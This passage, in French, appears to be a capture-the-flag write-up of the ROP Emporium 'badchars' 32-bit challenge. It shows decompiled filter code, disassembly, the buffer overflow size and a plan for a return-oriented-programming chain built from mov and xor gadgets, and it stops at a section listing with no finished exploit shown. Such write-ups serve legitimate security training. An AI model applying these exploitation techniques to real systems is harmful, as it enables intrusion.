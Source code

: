 ```c
  puts("badchars are: \'x\', \'g\', \'a\', \'.\'");
  printf("> ");
  msgSz = read(0,acBuffer,0x200);
  for (ixMsg = 0; ixMsg < msgSz; ixMsg = ixMsg + 1) {
    for (ixBadChar = 0; ixBadChar < 4; ixBadChar = ixBadChar + 1) {
      if (acBuffer[ixMsg] == badchars[ixBadChar]) {
        acBuffer[ixMsg] = -0x15;
      }
    }
  }
  puts("Thank you!");
  return;
}
```

La taille du debordement est comme pour write4 0x28+4

     ; var ssize_t s @ ebp-0x38
      0x00000747      6800020000     push 0x200
      0x0000074c      8d45c8         lea eax, [s]
      0x0000074f      83c010         add eax, 0x10
      0x00000752      50             push eax                    ; => ebp-0x28
      0x00000753      6a00           push 0                      ; int fildes
      0x00000755      e8c6fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)


On doit donc evisager d'ecrire "flag.txt" transformé en "fl___t_t" puis de modifier les caractères interdits un par un.

Il nous faut donc
1. ecrire le nom de fichier modifié
Pour cela il nou faut un gadget de tyep mov [reg], reg
2. alterer un caractère donné
Pour cela un gadget de type add [reg], ou xor [reg]


## Contruction de l'exploitation

### Recherche d'un zone mémoire inscriptible

    ropemporium/x32/05_badchars# rabin2 -S badchars32
    [Sections]

    nth paddr        size vaddr       vsize perm name
    ―――――――――――――――――――――――――――――――――――――――――――――――――
    0   0x00000000    0x0 0x00000000    0x0 ----
    1   0x00000154   0x13 0x08048154   0x13 -r-- .interp
    2   0x00000168   0x20 0x08048168   0x20 -r-- .note.ABI-tag
    3   0x00000188   0x24 0x08048188   0x24 -r-- .note.gnu.build-id
    4   0x000001ac   0x3c 0x080481ac   0x3c -r-- .gnu.hash
    5   0x000001e8   0xb0 0x080481e8   0xb0 -r-- .dynsym
    6   0x00000298   0x8d 0x08048298   0x8d -r-- .dynstr
    7   0x00000326   0x16 0x08048326   0x16 -r-- .gnu.version
    8   0x0000033c   0x20 0x0804833c   0x20 -r-- .gnu.version_r
    9   0x0000035c    0x8 0x0804835c    0x8 -r-- .rel.dyn
    10  0x00000364   0x18 0x08048364   0x18 -r-- .rel.plt
    11  0x0000037c   0x23 0x0804837c   0x23 -r-x .init
    12  0x000003a0   0x40 0x080483a0   0x40 -r-x .plt
    13  0x000003e0    0x8 0x080483e0    0x8 -r-x .plt.got
    14  0x000003f0  0x1d2 0x080483f0  0x1d2 -r-x .text
    15  0x000005c4   0x14 0x080485c4   0x14 -r-x .fini
    16  0x000005d8   0x14 0x080485d8   0x14 -r-- .rodata
    17  0x000005ec   0x44 0x080485ec   0x44 -r-- .eh_frame_hdr
    18  0x00000630  0x114 0x08048630  0x114 -r-- .eh_frame
    19  0x00000efc    0x4 0x08049efc    0x4 -rw- .init_array